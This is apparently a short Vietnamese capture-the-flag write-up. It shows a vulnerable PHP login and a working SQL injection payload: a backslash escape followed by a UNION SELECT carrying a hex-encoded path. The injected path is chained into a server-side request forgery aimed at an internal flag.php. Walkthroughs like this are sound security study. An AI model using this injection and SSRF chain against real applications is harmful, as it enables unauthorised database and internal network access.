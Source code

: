 # Phân tích

Đoạn code sau có thể dễ dàng bypass bằng `username=\&password= <MỘT TRUY VẤN UNION>-- -`:
```php
if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
    die("Làm ơn đừng hack 😵😵😵");
$sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
```

Và câu truy vấn sẽ trở thành

```
select username, path from users where username='\' and password=' MỘT TRUY VẤN UNION-- -
```

Tiếp theo  thực hiện thêm một truy vấn UNION để làm cho `$_SESSION['api_path']= '@127.0.0.1:80/flag.php#'`

```php
$_SESSION['api_path'] = $row['path'];
```

Mục đích của việc này là để khai thác lỗi SSRF

# Solution

`username=\&password= UNION SELECT 1, 0x403132372E302E302E313A38302F666C61672E70687023-- -`